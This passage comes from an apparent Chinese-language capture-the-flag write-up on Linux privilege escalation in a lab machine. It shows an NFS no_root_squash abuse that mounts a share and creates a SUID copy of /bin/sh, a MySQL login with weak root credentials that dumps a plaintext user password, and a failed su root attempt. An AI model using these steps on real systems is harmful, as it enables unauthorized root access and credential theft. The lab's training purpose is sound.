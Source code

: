 扫描发现：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201604.png" alt="image-20240319194306197" style="zoom: 50%;" />

这个配置允许网络中的任何主机以读写的方式访问 `/home/user5` 目录，并且root用户在该共享目录下具有完整的权限。

```bash
# kali
cd tmp
mkdir Escalate_Linux
sudo su
mount -t nfs 10.160.3.85:/home/user5 /tmp/Escalate_Linux/
cd /tmp/Escalate_Linux/
cp /bin/sh rootme
chmod 4755 rootme
```

按理说是可以的，但是机器的库版本有点低，执行不了这个`bash`。先搁置吧。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201605.png" alt="image-20240319195345514" style="zoom:50%;" />

### 方法五：mysql + 超级用户user1

刚刚端口扫描是扫到了mysql的，而且`etc/passwd`显示mysql也有`/bin/bash`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201606.png" alt="image-20240319195722594" style="zoom: 50%;" />

查看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201607.png" alt="image-20240319195827726" style="zoom:50%;" />

额，登录一下`mysql`试着读取吧，尝试若口令即可登录：

```bash
mysql -uroot -proot
show databases;
use user;
show tables;
select * from user_info;
```

获取到了`mysql`用户，尝试切换！

```apl
+----------+-------------+
| username | password    |
+----------+-------------+
| mysql    | mysql@12345 |
+----------+-------------+
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201608.png" alt="image-20240319200320204" style="zoom:33%;" />

获取到了flag，尝试登录，发现失败：

```bash
mysql@osboxes:/etc/mysql$ su root 
su root
Password: root@12345
su: Authentication failure
```
